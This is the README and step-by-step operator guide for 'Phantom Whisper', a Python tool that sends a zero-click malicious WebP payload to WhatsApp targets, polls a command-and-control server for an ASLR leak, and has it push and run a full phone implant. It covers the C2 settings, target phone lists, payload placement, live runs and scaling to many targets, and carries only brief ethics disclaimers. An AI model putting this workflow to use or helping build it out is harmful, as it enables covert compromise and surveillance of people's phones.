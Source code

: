 # Phantom Whisper — Step‑by‑Step Usage Guide

*A zero‑to‑green‑check walkthrough*

> \*\*Ethics First 🚨  \*\* Deploy **only** against devices you own **or** have **written consent** to test. You are fully responsible for legality & ethics.

---

## What is Phantom Whisper?

A Python 3 framework that

1. **Delivers** a prepared WebP zero‑click payload to WhatsApp targets.
2. **Polls** your C2 for an ASLR leak proving initial compromise.
3. **Triggers** download/execute of a full implant (iOS or Android).
4. **Logs** every step to JSON‑lines for audit‑grade traceability.

The code is single‑host & sequential today, but architected for multi‑threaded scale tomorrow.

---

## 1  Prerequisites

| Requirement                 | Why                                                                | Quick Check                      |
| --------------------------- | ------------------------------------------------------------------ | -------------------------------- |
| **Python 3.9+**             | Modern typing, `pydantic‑settings`, f‑strings                      | `python3 --version`              |
| `virtualenv` / `pyenv`      | Isolate project dependencies                                       | *(strongly recommended)*         |
| **Git + GCC/Clang**         | Clone repo & compile any C‑backed wheels                           | `git --version`, `gcc --version` |
| Out‑of‑scope test device(s) | **Only for ethical testing**—never target without explicit consent | Verify IMEI / device ID          |

> 💡 *A C compiler is usually **optional**—all current wheels are pre‑built.*

---

## 2  Clone & Install

```bash
# 2.1 Clone the repository
$ git clone https://github.com/exfil0/phantom_whisper.git
$ cd phantom_whisper

# 2.2 Create & activate a virtual environment
$ python3 -m venv .venv
$ source .venv/bin/activate       # Windows: .venv\Scripts\activate

# 2.3 Install runtime dependencies
$ pip install -r requirements.txt
```

---

## 3  Configure Environment

Create a file named **`.env`** *in the project root*:

```dotenv
# Required
C2_API_KEY=REPLACE_ME

# Optional overrides
C2_SERVER_BASE_URL=https://c2.example.com
TARGET_WHATSAPP_IDS="+15551234567,+447911123456"
OS_TYPE=android                # ios (default) | android
```

The `Settings` model (see `config.py`) automatically ingests these at runtime.

---

## 4  Payload & Target Prep

1. **Payload** – place your malicious WebP at **`payloads/malicious_webp.bin`**.
2. **Targets** – supply IDs via `TARGET_WHATSAPP_IDS` **or** edit the default list in `config.py`.

---

## 5  Smoke Test (Dry‑Run)

```bash
$ python -m phantom_whisper.orchestrator
```

*Expect:*

* Console output in plain text.
* `logs/phantom_whisper.log` containing structured JSON lines.
* **Zero** outbound C2 traffic unless your `.env` is fully populated.

---

## 6 Live Execution ⚠️

> **Ensure you have legal authority & written permission before proceeding.**

```bash
# Verify C2 reachability, VPN/lab network, etc.
$ python -m phantom_whisper.orchestrator
```

### Execution Flow (per target)

1. **Init clients** `C2Client` + `WhatsAppTransport` (per‑target context).
2. **Send payload** Zero‑click WebP delivery.
3. **Poll for leak** Exponential back‑off until ASLR address received.
4. **Deploy implant** Command C2 to push the full binary.

| Exit Code | Meaning                           |
| --------- | --------------------------------- |
|  `0`      | All targets succeeded             |
|  `N > 0`  |  `N` targets failed orchestration |

---

## 7 Logging & Telemetry

| Channel | Location                     | Format        |
| ------- | ---------------------------- | ------------- |
| Console | STDOUT                       | Plain text    |
| File    | `./logs/phantom_whisper.log` | JSON‑per‑line |

Each entry contains: `timestamp`, `session_id`, `payload_hash`, `target_id`, log level, and message.

> **Tip:** Ship the log file to ELK, Splunk, or simply `jq` for ad‑hoc forensics.

---

## 8  Parallel Mode (Optional)

Uncomment the `ThreadPoolExecutor` block in `orchestrator.py` and set `MAX_WORKERS` in your `.env`.

---

## 9  Cleanup

```bash
$ deactivate                        # leave venv
$ rm -rf .venv logs/*.log           # nuke env & logs
```

---

## 10  Troubleshooting

| Symptom                        | Likely Cause                               | Remedy                                                       |
| ------------------------------ | ------------------------------------------ | ------------------------------------------------------------ |
| `ConnectionError`              | Bad C2 URL / network issues                | Verify `C2_SERVER_BASE_URL`, VPN, firewall                   |
| `PayloadError`                 | Missing WebP file                          | Check `payloads/malicious_webp.bin` path                     |
| `C2ResponseSchemaError`        | C2 JSON doesn’t match expected schema      | Update C2 server or adjust client                            |
| Exit code > 0                  | Target orchestration failures              | Inspect `phantom_whisper.log` `ERROR` entries                |
| `AttributeError` / `NameError` | Missing dependency or wrong Python version | Re‑run `pip install -r requirements.txt`; ensure Python 3.9+ |

---

### Next Steps

* **Real WhatsApp transport** – replace simulator.
* **CLI flags** – for headless operation & overrides.
* **PyInstaller bundle** – single‑file distribution.
* **gRPC‑based C2** – flexible backend protocol.

PRs welcome

---

## License
Internal proof‑of‑concept — no public license. Contact the author for usage terms.

---

**Happy hunting & stay ethical!**
